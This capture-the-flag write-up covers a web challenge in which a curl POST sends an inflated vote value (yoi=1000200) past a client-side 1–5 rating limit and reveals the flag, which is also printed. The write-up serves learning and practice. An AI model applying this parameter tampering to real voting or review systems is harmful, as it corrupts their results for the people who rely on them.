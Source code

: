 # Cringeyroll
Are you ready? - 0 points

## Challenge 
> Here comes the anime awards! However, other mainstream anime are winning! As a fangirl of Yuri On Ice, I'm getting triggered. Hack the awards and make the points of Yuri On Ice 1000000! I'll give you the flag if you manage to.
>
> http://san.chal.gryphonctf.com:17122
>
> Creator @Platy

## Solution
Rating on reviews can be submitted only once with 1-5 rating.
Checking the page source, it does a POST request of `yoi=1` if we rate Yuri On Ice with +1

Do a manual POST request 

	$ curl -s --data 'yoi=1000200' http://san.chal.gryphonctf.com:17122 | html2text | grep "GCTF"
	GCTF{7h3_4n1m3_4w4rd5_w3r3_r1663d}

## Flag
`GCTF{7h3_4n1m3_4w4rd5_w3r3_r1663d}`